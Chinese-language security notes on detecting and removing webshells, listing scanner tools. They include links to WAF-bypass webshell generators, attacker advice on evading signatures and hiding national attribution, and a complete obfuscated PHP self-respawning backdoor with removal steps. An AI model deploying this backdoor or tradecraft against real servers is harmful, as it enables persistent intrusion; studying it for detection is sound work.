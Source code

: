 ### 7.15
#### Webshell查杀
[雨雀](https://www.yuque.com/u22103703/csqb9v/qipvzd)   密码：gs4p
webshell合集仓库：https://github.com/tennc/webshell
git clone https://github.com/tennc/webshell
或者使用国内镜像
git clone https://githubfast.com/tennc/webshell
##### 常规Webshell
###### 常规Webshell查杀工具
* D盾:
    首次查杀会自动联网下载webshell的特征库，基于特征库匹配
    只有windows版本嵌入到windows的IS中间件中，可以承担IS的WAF的作用

* 河马
    [河马](www.shellpub.com)下载`wget https://dl.shellpub.com/hm/latest/hm-linux-amd64.tgz?version=1.8.3 -O hm-linux-amd64.tgz`并解压`tar xf hm-linux-amd64.tgz `
    查杀`./hm scan 文件目录`
    深度查杀`./hm deepscan 文件目录`

* [CloudWalker](https://github.com/chaitin/cloudwalker)
`chmod +x webshell-detector-1.0.0-linux-amd64`

###### webshell查杀工具的弊端
工具中的特征库不能及时更新特征库甚至已经停止更新特征库，从而无法查杀新式的木马

###### webshell的绕过，作者Tas9er
https://github.com/Tas9er 随机生成webshell(在其中随机添加垃圾数据) 可以绕过一些WAF的拦截
https://github.com/Tas9er/ByPassBehinder    随机生成绕过防护设备的冰蝎3 webshell
https://github.com/Tas9er/ByPassGodzilla    随机生成绕过防护设备的哥斯拉 webshell
https://github.com/Tas9er/ByPassBehinder4J  随机生成绕过防护设备的冰蝎4 webshell

_参加攻防赛时，国外的目标可以使用国内的木马，同理国内目标可以使用国外的木马，因为国内外木马的特征库不同，这样可以降低木马被防守方发现的概率
参加高级信息攻防任务时，例如攻击国外时，要有反侦察意识:不使用国内木马，浏览器使用文字不能为中文，时区不能为东八区，从攻击时间不能看出自己国家的节日等等_

##### 内存马
以线程注入为代表的这一类技术，通过将木马注入到系统进程和删除自身进程的方式，来躲避杀毒软件的查杀和实现自身的隐藏。
###### php内存马
PHP内存马也叫不死马，是通过内存马启动后删除文件本身之前，使代码在内存中执行死循环，使管理员无法删除内存马，达到权限维持的目的。
```
shell.php
<?php
ignore_user_abort(true);//与客户机断开不会终止脚本的执行
set_time_limit(0);//表示页面将持续运行
unlink(__FILE__);//删除文件（防止文件落地被检测工具查杀）
$file='./.7b34e9981883b1eb6df6c30089d88fb3.php';
$code='<?php if(md5($_POST["pass"])=="ff5cff09be577f8b2251062bd06eca3c"){//设置密码，对比密码的md5值
${("#"^"|").("#"^"|")}=("!"^"`").("("^"{").("("^"[").("~"^";").("|"^".").("*"^"~");${("#"^"|").("#"^"|")}(("-"^"H").("]"^"+").("["^":").(","^"@").("}"^"U").("~"^">").("e"^"A").("("^"w").("j"^":").("i"^"&").("#"^"p").(">"^"j").("!"^"z").("]"^">").("@"^"-").("["^"?").("?"^"b").("]"^"t"));}
?>';
while(1){
    if(!file_exists($file)||(md5_file($file)!=="99d77f6bc7086cc5c2f0b251d567938c")){
    	file_put_contents($file,$code);system("/bin/chmod 777 ".$file);//将字符串写入该文件中
    }
    usleep(200);//延迟执行当前脚本数微秒，即条件竞争
}
?>
```
`shell.php`执行后会在同级目录下生成`.7b34e9981883b1eb6df6c30089d88fb3.php`并且删除自身，因为while命令一直在循环，所以打开浏览器时会一直加载，而且删除尝试`.7b34e9981883b1eb6df6c30089d88fb3.php`时会重新生成一个`.7b34e9981883b1eb6df6c30089d88fb3.php`
**php内存马的解决**
* 如果有服务器的root权限：重启中间件之后再删除`.7b34e9981883b1eb6df6c30089d88fb3.php`即可
* 如果没有服务器的root权限：
    1. ps auxww|grep shell.php 找到pid后杀掉进程就可以，删掉脚本是起不了作用的，因为php执行的时候已经把脚本读进去解释成opcode运行了